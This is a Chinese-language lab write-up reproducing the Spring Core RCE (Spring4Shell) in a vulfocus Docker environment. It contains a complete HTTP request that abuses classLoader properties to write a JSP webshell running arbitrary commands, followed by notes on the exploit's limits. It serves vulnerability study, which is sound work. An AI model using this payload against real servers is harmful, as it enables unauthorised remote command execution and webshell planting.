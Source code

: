 ## 环境搭建
```shell
docker pull vulfocus/spring-core-rce-2022-03-29
```
## 启动环境
```shell
docker run -it -d --name springrce -p 192.168.93.131:9000:8080 vulfocus/spring-core-rce-2022-03-29
```
访问`192.168.93.131:9000` 出现如下界面则说明环境搭建成功
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_V9kD1vnq.png)

## 漏洞复现
当前docker 环境中，jdk版本为9.0

![image.png](Spring-Core RCE.assets/2023_05_19_10_37_03_AiRqoUuC.png)

```http
POST / HTTP/1.1
Host: 192.168.93.131:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 685
suffix: %>
prefix: <%

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7bprefix%7dijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("i")).getInputStream()%3b+int+a+%3d+-1%3b+byte[]+b+%3d+new+byte[2048]%3b+out.print("<pre>")%3b+while((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}+out.print("</pre>")%3b%25%7bsuffix%7di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat
```
![image.png](Spring-Core RCE.assets/2023_05_19_10_37_04_viXaoteV.png)

## 问题总结

1. 目前看效果只能写一次，发送过1次payload之后，是不能向其他目录下写新文件
2. 发送一次payload之后之后，只能向文件里追加，不会覆盖文件
3. 如果没有容器化部署（tomcat war包部署），是写不了webshell，虽然还没捋清楚是否是代码执行，如果是代码执行，那么可以在运行态中写入内存马达到作用，如果是命令执行，那么是不行的（看payload的样子感觉是命令执行`pipeline`）
4. 如果是以jar包部署，那么考虑到启动jar包的用户权限，一般不会太高，在做了最小权限法的服务器，启动web服务的用户是没有家目录，导致无法写入公钥，也没权限写入计划任务
5. post包最后也就是第15行后不要有回车，不然生成的文件是`shell$\r\n.jsp`
6. 目前看很鸡肋



